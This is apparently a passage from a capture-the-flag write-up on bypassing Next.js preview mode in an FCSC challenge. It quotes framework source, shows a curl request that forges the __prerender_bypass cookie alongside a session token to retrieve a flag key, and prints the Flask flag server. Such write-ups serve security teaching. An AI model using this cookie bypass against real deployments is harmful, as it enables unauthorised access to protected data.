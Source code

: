 ```typescript
export type ApiPreviewProps = {
  previewModeId: string
}

export function tryGetPreviewData(
  req: IncomingMessage | BaseNextRequest | Request,
  res: ServerResponse | BaseNextResponse,
  options: ApiPreviewProps
) {
  // ...

  const headers = HeadersAdapter.from(req.headers)
  const cookies = new RequestCookies(headers)

  const previewModeId = cookies.get("__prerender_bypass")?.value
  // ...

  if (previewModeId && previewModeId === options.previewModeId) {
    const data = {}
    // ...
    return data
  }
}
```

Basically, the `tryGetPreviewData` function checks if the cookie `__prerender_bypass` is set and if it matches the `previewModeId`. If it does, we are in preview mode.

We can now set the `__prerender_bypass` cookie to the value of the `previewModeId` we received in the previous request.

```bash
curl https://under-nextruction.fcsc.fr:2213/api/user \
  -b 'session=eyJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InZleGNpdGVkIiwiaWF0IjoxNzQ1MjM4NDUwLCJleHAiOjE3NDUzMjQ4NTB9.Y6BpTLOtsNlBdx6yWdXdZAv3UN2wZFv1iJ2o2Eywy40; __prerender_bypass=59c6709a1c2b39386a72b0026399960b'
```

```json
{
  "username": "vexcited",
  "timestamp": "2025-04-22T00:03:24.487Z",
  "flagStoreKey": "8fce97b0137965a3ddd635355eb3b1d249844c814c7981ade10dc201a329b457"
}
```

We now bypassed preview mode and we can store the `flagStoreKey`.

## Where are we going ?

The flag is stored in a Python server running on the `under-nextruction-flag` container, on port `5000`.

```python
from flask import Flask, request, jsonify
from os import environ

app = Flask(__name__)

@app.get("/get_flag")
def get_flag():
	if request.headers.get("X-Key") != environ.get("FLAG_STORE_KEY", "FAKE_KEY"):
		return jsonify({ "error": "Invalid X-Key value provided!" }, 403)

	return jsonify({ "flag": environ.get("FLAG") })

```